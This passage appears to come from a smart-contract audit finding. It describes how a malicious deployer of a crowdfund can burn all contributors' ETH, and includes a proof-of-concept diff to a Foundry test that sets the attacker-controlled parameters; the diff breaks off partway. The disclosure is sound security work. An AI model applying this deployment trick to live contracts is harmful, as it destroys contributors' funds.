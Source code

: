 Issue 1 is somewhat problematic, but issue 2 is very problematic, because all funds of a crowdfund are burned and an attacker can specifically set up such a deployment (and the user would not notice anything special, after all these are parameters that the protocol accepts).

### [](#proof-of-concept-1)Proof Of Concept

This diff illustrates scenario 2, i.e. where a malicious deployer burns all contributions (1 ETH) of `contributor`. He loses 0.25ETH for the attack, but this could be reduced significantly (with more `burn(payable(address(0)))` calls:

    --- a/sol-tests/crowdfund/BuyCrowdfund.t.sol
    +++ b/sol-tests/crowdfund/BuyCrowdfund.t.sol
    @@ -36,9 +36,9 @@ contract BuyCrowdfundTest is Test, TestUtils {
         string defaultSymbol = 'PBID';
         uint40 defaultDuration = 60 * 60;
         uint96 defaultMaxPrice = 10e18;
    -    address payable defaultSplitRecipient = payable(0);
    +    address payable defaultSplitRecipient = payable(address(this));
         uint16 defaultSplitBps = 0.1e4;
    -    address defaultInitialDelegate;
    +    address defaultInitialDelegate = address(this);
         IGateKeeper defaultGateKeeper;
         bytes12 defaultGateKeeperId;
         Crowdfund.FixedGovernanceOpts defaultGovernanceOpts;
    @@ -78,7 +78,7 @@ contract BuyCrowdfundTest is Test, TestUtils {
                         maximumPrice: defaultMaxPrice,
                         splitRecipient: defaultSplitRecipient,
                         splitBps: defaultSplitBps,
    -                    initialContributor: address(this),
    +                    initialContributor: address(0),
                         initialDelegate: defaultInitialDelegate,
                         gateKeeper: defaultGateKeeper,
                         gateKeeperId: defaultGateKeeperId,
    @@ -111,40 +111,26 @@ contract BuyCrowdfundTest is Test, TestUtils {
         function testHappyPath() public {
             uint256 tokenId = erc721Vault.mint();
             // Create a BuyCrowdfund instance.
    -        BuyCrowdfund pb = _createCrowdfund(tokenId, 0);
    +        BuyCrowdfund pb = _createCrowdfund(tokenId, 0.25e18);
             // Contribute and delegate.
             address payable contributor = _randomAddress();
             address delegate = _randomAddress();
             vm.deal(contributor, 1e18);
             vm.prank(contributor);
             pb.contribute{ value: contributor.balance }(delegate, "");
    -        // Buy the token.
    -        vm.expectEmit(false, false, false, true);
    -        emit MockPartyFactoryCreateParty(
    -            address(pb),
    -            address(pb),
    -            _createExpectedPartyOptions(0.5e18),
    -            _toERC721Array(erc721Vault.token()),
    -            _toUint256Array(tokenId)
    -        );
    -        Party party_ = pb.buy(
    -            payable(address(erc721Vault)),
    -            0.5e18,
    -            abi.encodeCall(erc721Vault.claim, (tokenId)),
    -            defaultGovernanceOpts
    -        );
    -        assertEq(address(party), address(party_));
    -        // Burn contributor's NFT, mock minting governance tokens and returning
    -        // unused contribution.
    -        vm.expectEmit(false, false, false, true);